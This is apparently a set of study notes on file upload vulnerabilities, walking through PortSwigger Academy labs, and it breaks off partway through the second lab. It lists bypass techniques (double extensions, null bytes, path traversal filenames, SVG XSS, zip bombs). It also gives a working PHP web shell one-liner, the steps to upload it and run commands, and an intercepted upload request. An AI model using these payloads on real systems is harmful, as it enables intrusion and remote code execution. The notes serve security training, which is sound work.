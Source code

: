 ### Intro
File upload vulnerabilities occur when a web application improperly handles user-uploaded files, allowing attackers to upload malicious files such as web shells, scripts, or executables. These can lead to remote code execution (RCE), data exfiltration, denial of service (DoS), or complete system compromise.

*Common File Upload Vulnerabilities*
- Unrestricted File Upload: Uploading `shell.php` and accessing it via `https://target.com/uploads/shell.php`
- MIME Type Bypass: Uploading a PHP shell disguised as image.png with c`ontent-type image/png`, but actual content is PHP code.
- File Extension Spoofing: `shell.php.jpg` or `shell.jpg%00.php` bypassing extension filters.
- Remote Code Execution (RCE): Uploading `cmd.jsp` on a Tomcat server and executing system commands via URL parameters.
- Path Traversal in File Name: Uploading file named `../../../../etc/passwd` or `..%2f..%2fwebshell.php` to write outside intended directory.
- Overwriting Existing Files: Uploading index.html to overwrite the homepage or `.htaccess` to modify server behavior.
- Malicious File Content (e.g. XSS in SVG): Uploading an .svg with embedded `<script>alert(1)</script>`, triggering stored XSS.
- Denial of Service via Large File or ZIP Bomb: Uploading a 10GB file or a `.zip` containing billions of nested files.
- Insecure Direct Object Reference (IDOR) on Uploads: Accessing `https://target.com/uploads/1234.pdf` of another user without authorization.
- Missing Access Controls: Any user can view or download sensitive files without being authenticated.

### File upload vulnerabilities labs (Apprentice)

#### Lab: Remote code execution via web shell upload
- Creating simple php shell: `echo '<?php system($_GET['cmd']); ?>' >  shell.php`
- Go to /My_account and upload this file as an avatar (pay attention that app will write you path where your avatar was uploaded)
- Next - open uploaded file and get info you need: `https://<YOUR-LAB>.web-security-academy.net/files/avatars/shell.php?cmd=ls`

#### Lab: Web shell upload via Content-Type restriction bypass
- If we will try to upload same file we will see an error, let's intercept the request

```html
POST /my-account/avatar HTTP/2
Host: <YOUR-LAB>.web-security-academy.net
Cookie: session=WReNf1iG7WqgGyFOPoYeqXAzdQIJvfFu; session=b5beGOHGTtqnRitgQQZ07Z7bWwf6d9Kl
Content-Length: 433
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="137", "Not/A)Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Origin: https://<YOUR-LAB>.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryM7J10YcS0wUBhrAu
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://<YOUR-LAB>.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```